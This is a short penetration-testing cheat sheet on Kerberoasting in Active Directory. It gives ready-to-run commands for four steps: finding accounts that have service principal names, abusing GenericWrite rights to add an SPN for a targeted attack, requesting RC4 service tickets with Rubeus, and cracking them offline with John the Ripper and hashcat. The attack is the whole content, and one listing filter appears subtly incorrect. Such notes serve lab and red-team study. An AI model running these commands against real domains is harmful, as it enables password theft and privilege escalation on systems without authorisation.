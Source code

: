 # Kerberoasting

When a user account has a Service Principal Name, it is possible to request a Service Ticket for the service mentionned in the SPN.

The Service Ticket is encrypted with the password of the user account: it is possible to crack the ST to retrieve the user account's password.



## List users that have SPN

```powershell
> Get-ADUser -Filter {ServicePrincipalName -eq "$null"} -Properties ServicePrincipalName
```

## Set SPN to user

If our user has `GenericWrite` or `GenericAll` to another user, it is then possible to write an SPN and perform a targeted kerberoast attack.

```powershell
# List our privileges on the group StudentUsers
[PowerView]> Find-InterestingDomainAcl -ResolveGUIDs | ?{$_.IdentityReferenceName -match "StudentUsers"}
# Or use BloodHound to find this
```

Update SPN:

```powershell
> Set-ADUser -Identity <username> -ServicePrincipalNames @{Add='domain/SPN'} -Verbose
[PowerView]> Set-DomainObject -Identity <username> -Set @{serviceprincipalname='domain/SPN'} -Verbose
```

Check that SPN has been updated:

```powershell
> Get-ADUser -Identity <username> -Properties ServicePrincipalName | select ServicePrincipalName
```

## Request ST

This command requests a Service Ticket for user `username`. The `/rc4opsec` flag only requests tickets for user accounts that support RC4.&#x20;

```powershell
> Rubeus.exe kerberoast /user:<username> /simple /nowrap /rc4opsec /outfile:hashes.txt
```

## Crack with JtR or hashcat

```powershell
> john.exe --wordlist=<path_to_wordlist> hashes.txt
> hashcat -m 13100 hashes.txt <path_to_wordlist>
```
